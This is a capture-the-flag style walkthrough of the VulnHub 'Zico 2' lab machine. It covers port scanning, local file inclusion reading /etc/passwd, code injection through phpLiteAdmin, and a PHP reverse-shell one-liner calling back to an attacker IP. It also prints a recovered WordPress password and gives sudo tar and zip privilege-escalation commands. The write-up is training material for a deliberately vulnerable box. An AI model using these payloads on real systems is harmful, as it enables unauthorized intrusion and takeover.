 ```yaml
---
title: "VulnHub: Zico 2"
date: "2020-09-20"
author: frosty
categories:
  - "writeups"
tags:
  - "vulnhub"
---
```


Zico 2 is rated as an intermediate level box created by [@rafasantos5](https://twitter.com/rafasantos5) posted on [VulnHub](https://www.vulnhub.com/entry/zico2-1,210/). This writeup will detail the steps that I have tried and used to get root access of the target host.

The scenario is that Zico tried to build a website, but wasn't sure exactly how they wanted to do it. In the end, they tried to build their own. Let's see if that was a good idea.

## Enumeration

Naturally, we need to find the IP address of the target host. We'll use `netdiscover` for this. The output of netdiscover shows the IP address of the target host, which we then scan using nmap. The nmap command here just tries to find open ports with the `-p-` flag. We can do more detailed scans after we know the open ports.

```sh
$ sudo netdiscover -r 10.0.2.0/24 -i eth0
10.0.2.12

$ nmap -p- 10.0.2.12
```

![Image](/assets/img/writeups/vulnhub/zico2/image-32.png)

Interesting that we see port `111` and `44249` in addition to the typical `22` and `80` ports. Using the nmap `-A` flag, we try to get some more information out of these.

```sh
$ nmap -p 22,80,111,44249 -A 172.20.1.11
```

![Image](/assets/img/writeups/vulnhub/zico2/image-33.png)

It seems that both of these ports are RPC ports. For now, let's go into HTTP enumeration - after all, Zico built the website on their own...

* * *

### Enumeration: HTTP

The first thing to do would be to navigate to the home page, and have a quick browse. We see that they opened their own shop. It looks like it's still in the development phase. Nevertheless, when scrolling down we see an interesting button to "check out the tools". Why is it interesting? The link seems to have some sort of parameter to load pages `?page=tools.html`

![Image](/assets/img/writeups/vulnhub/zico2/image-34-1024x609.png)

![Image](/assets/img/writeups/vulnhub/zico2/image-35.png)

So we see that tools.html is loaded as the value of parameter `?page=`. Perhaps the web application takes in the parameter and loads the `tools.html` - so I am wondering if this parameter is vulnerable to local file inclusion. We can test it by trying to load the `/etc/passwd`. This is a good one to try because it is standard on all Linux boxes, and it resides outside of the website files. And we see in the screenshot below that the parameter indeed is vulnerable to local file inclusion. I also tried to see if we could exploit this parameter for remote file inclusion but it seems that the parameter was not vulnerable - the requests were not reaching my HTTP server.

![Image](/assets/img/writeups/vulnhub/zico2/image-36-1024x188.png)

Anyways, it seems that we have otherwise exhausted our paths for the website. There is no `/robots.txt` file which could have led us to some other paths. So lets use Gobuster for some automated scanning to find some other endpoints which we might be able to visit.

```sh
$ gobuster dir -w /usr/share/wordlists/dirb/commmon.txt -u http://10.0.2.12/
```

![Image](/assets/img/writeups/vulnhub/zico2/image-37.png)

The first thing that strikes me as interesting would be the `/dbadmin` endpoint, which ends up being a directory which contains a file `/test_db.php` which hosts phpLiteAdmin v1.9.3! It is password protected, but our trusty `admin` password attempt works a treat in this case.

![Image](/assets/img/writeups/vulnhub/zico2/image-38.png)

I have actually seen phpLiteAdmin before when I was studying for my OSCP, so I may know the route to get an initial shell. Nevertheless, we need to test if it will work.

It seems that Zico has not setup phpLiteAdmin -> the default database `test_users` is still present. We see in the admin panel that it is located at `/usr/databases/test_users`. So let's remember that we have LFI on the server. If we can craft a new database with some PHP code, then we should be able to execute it through our LFI vulnerable path. Let's try it!

* * *

## Getting the initial shell

![Image](/assets/img/writeups/vulnhub/zico2/image-39.png)

Thanks to the login page of the admin panel, we see the version of phpLiteAdmin. There is an exploit seen in the [Exploit-DB](https://www.exploit-db.com/exploits/24044). Let's follow the steps!

1. Create a DB named `hack.php`.
2. Create a new table with `<?php phpinfo() ?>`
3. Execute hack.php

![Image](/assets/img/writeups/vulnhub/zico2/image-40.png)

![Image](/assets/img/writeups/vulnhub/zico2/image-41-1024x397.png)

Boom! We have code execution! Alright! Let's try and change this so that we can get a shell of some sort.

Let's edit the `<?php phpinfo() ?>` code to:

```php
<?php $sock = fsockopen("10.0.2.10",1234); $proc = proc_open("/bin/sh -i", array(0=>$sock, 1=>$sock, 2=>$sock), $pipes); ?>
```

![Image](/assets/img/writeups/vulnhub/zico2/image-42.png)

![Image](/assets/img/writeups/vulnhub/zico2/image-43.png)

* * *

## Privilege escalation

As we saw in the /etc/passwd LFI exploit earlier, we know that there is a Zico user on the host. When inspecting their home directory, we see that there are incorrect permissions set - the files are globally readable and executable

![Image](/assets/img/writeups/vulnhub/zico2/image-45.png)

We see a `to_do.txt` file in their home directory, let's take a look. Zico still wants to try Joomla, bootstrap (+phpliteadmin) and wordpress. Right now what I'm looking for could be some password which Zico may have reused.

![Image](/assets/img/writeups/vulnhub/zico2/image-46.png)

It seems that Joomla wasn't set up at all/ or I couldn't find a password inside there. However, we see a `wp-config.php` in the Wordpress directory. This one has a password stored:

```txt
sWfCsfJSPV9H3AmQzw8
```

![Image](/assets/img/writeups/vulnhub/zico2/image-47.png)

![Image](/assets/img/writeups/vulnhub/zico2/image-48.png)

* * *

## Privilege Escalation

Of course as we already searched the home directory of Zico, I think that it is unlikely that we will find a root password in there. In any case, it's always good for us to execute `sudo -l` to see what kind of other commands Zico can execute.

![Image](/assets/img/writeups/vulnhub/zico2/image-49.png)

It seems that we have two paths to get root. Zico is allowed to execute both `tar` and `zip` binaries as root, without a password. These are both GTFO binaries, so it should be relatively quick to get the root shell.

### Tar Privilege Escalation

We'll use [this](https://gtfobins.github.io/gtfobins/tar/) resource.

```sh
$ sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/bash
```

![Image](/assets/img/writeups/vulnhub/zico2/image-50.png)

### Zip Privilege Escalation

We'll use [this](https://gtfobins.github.io/gtfobins/zip/) resource.

```txt
TF=$(mktemp -u)
sudo zip $TF /etc/hosts -T -TT 'sh #'
#
```

![Image](/assets/img/writeups/vulnhub/zico2/image-51.png)
